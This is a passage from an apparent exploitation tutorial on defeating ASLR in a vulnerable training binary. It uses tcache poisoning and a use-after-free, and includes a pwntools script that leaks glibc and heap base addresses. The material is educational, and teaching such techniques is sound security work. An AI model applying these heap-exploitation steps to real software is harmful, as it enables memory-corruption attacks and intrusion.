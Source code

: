 ```diff
+    p.recvuntil(b" >")
+
 p.recvuntil(b"> ")
```

#### Breaking ASLR for glibc and the Heap

Our first thought is likely to try a similar approach as last lesson's example with an added step of leaking `__environ`'s value (since `__free_hook` is no more). This may very well be a valid strategy for certain targets. However, this binary provides us very limited control over allocation and freeing. In fact, things would get very dicey after leaking `__environ`:

* Because `__environ` is eight-byte aligned, we must allocate a buffer at least `0x8` bytes before it—otherwise glibc will [crash due to an unaligned allocation](https://elixir.bootlin.com/glibc/glibc-2.40.9000/source/malloc/malloc.c#L3182)
* Making our poisoned allocation `0x8` bytes before `__environ`  is problematic and results in its value being nulled-out—that offset is assumed to contain `tcache_key`, as mentioned previously
* We could still perhaps still leak its value after poisoning tcache, but subsequent calls to freeing the previously poisoned pointer near `__environ` would [fail size some "little security checks" in glibc](https://elixir.bootlin.com/glibc/glibc-2.40.9000/source/malloc/malloc.c#L4510)—glibc expects that allocations are preceded by a valid size!

Challenges like these are common whenever we've poisoned a cache and the heap state has diverged from the norm. Things are liable to go haywire quickly.

We need a tcache corruption target that provides a lot of control. Something that lets us set pointers which we can use to leak info and write long buffers (like a ROP chain). An option that jumps out is control over `u`! With the ability to overwrite the `name`, `group`, and `bio` pointers in `u`, we could `print` or `edit` the chosen data repeatedly without calling `new` or `delete` to further corrupt the heap state.

We can achieve initial control over `u` by making it the target of our tcache poisoning. The first steps are the same as last lesson's example: we make a new user and delete it to set up a UAF vulnerability. But, `print`ing the value at this point does not leak a glibc address because of the null byte in `bio`'s `fw` pointer. Instead, we need to allocate the large `ticket` buffer to trigger sorting so that the freed `bio` allocation points to a new glibc address. Also, our target for the heap leak is the value in `group->fw`'s pointer, as that is the shifted but un-XORed tail pointer. Parsing these two values (and shifting the leaked `group->fw` pointer) leaks our glibc base and heap base:

```python
p.recvuntil(b"> ")

# register items on heap
new(b"ian", b"user", 1000, 1000, b"prof")

# leak glibc and heap addresses
# make ticket to sort unsorted bins so that we print a glibc address back
delete()
ticket(b"Can't log in! Help!")
leak = _print()
# get leaked group pointer which is just (&group >> 12)
heap_leak = leak[leak.find(b"group: ") + len(b"group: "):]
heap_leak = leak[leak.find(b"group: ") + len(b"group: "):]
heap_leak = heap_leak[:heap_leak.find(b',')]
heap_leak = u64(heap_leak.ljust(8, b'\x00'))
glibc_leak = leak[leak.find(b"Bio: ") + len(b"Bio: "):]
glibc_leak = glibc_leak[:glibc_leak.find(b'P')]
glibc_leak = u64(glibc_leak.ljust(8, b'\x00'))

heap_base = (heap_leak << 12) & ~0xfff
glibc_base = (glibc_leak & ~0xfff) - 0x1ff000
print("Heap base: " + hex(heap_base))
print("Glibc base: "  + hex(glibc_base))
```

